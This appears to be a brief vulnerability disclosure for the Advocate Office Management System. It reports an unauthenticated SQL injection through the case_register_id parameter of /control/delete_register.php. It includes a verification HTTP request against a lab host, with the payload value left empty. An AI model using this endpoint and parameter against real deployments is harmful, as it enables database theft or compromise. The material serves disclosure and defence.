

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/delete_register.php file. You can see that the case_register_id parameter that receives the GET request exists in the code and is concatenated with the SQL statement and directly brought into the database for operation.

![image-20250314115917453](images/image-20250314115917453.png)



Vulnerability verification：

```
GET /office/kortex_lite/control/delete_register.php?case_register_id= HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
```

![image-20250314120047369](images/image-20250314120047369.png)



































